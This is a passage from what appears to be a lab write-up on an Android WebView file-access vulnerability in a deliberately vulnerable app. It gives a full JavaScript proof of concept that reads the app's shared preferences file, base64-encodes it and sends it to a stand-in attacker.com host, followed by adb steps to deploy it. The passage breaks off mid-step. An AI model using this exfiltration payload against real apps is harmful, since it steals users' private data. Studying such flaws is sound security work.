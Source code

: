 The `setAllowUniversalAccessFromFileURLs(true)` setting allows JavaScript to read local files and exfiltrate them.

**Exploit JavaScript Code**:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Exploit</title>
  <script>
    // Target local file to read (e.g., shared preferences file)
    var url = 'file:///data/data/com.tmh.vulnwebview/shared_prefs/MainActivity.xml';

    // Function to load and exfiltrate the file contents
    function load(url) {
        var xhr = new XMLHttpRequest(); // Create a new XMLHttpRequest object

        // Define the onreadystatechange event handler
        xhr.onreadystatechange = function() {
            if (xhr.readyState === 4) { // Check if the request is complete
                // Encode the file contents in Base64
                var base64Content = btoa(xhr.responseText);

                // Send the encoded content to the attacker's server
                fetch('https://attacker.com/?exfiltrated=' + base64Content)
                    .then(response => console.log('Data exfiltrated successfully'))
                    .catch(error => console.error('Exfiltration failed:', error));
            }
        };

        // Open and send the GET request
        xhr.open('GET', url, true);
        xhr.send('');
    }

    // Trigger the exploit
    load(url);
  </script>
</head>
<body>
    <h1>Loading...</h1>
</body>
</html>
```

**Steps**:

1.  Save the exploit script as `poc.html` and push it to the device:

    ```bash
    adb push poc.html /sdcard/poc.html
    ```
2.  Launch the `RegistrationWebView` activity with the malicious file URL:
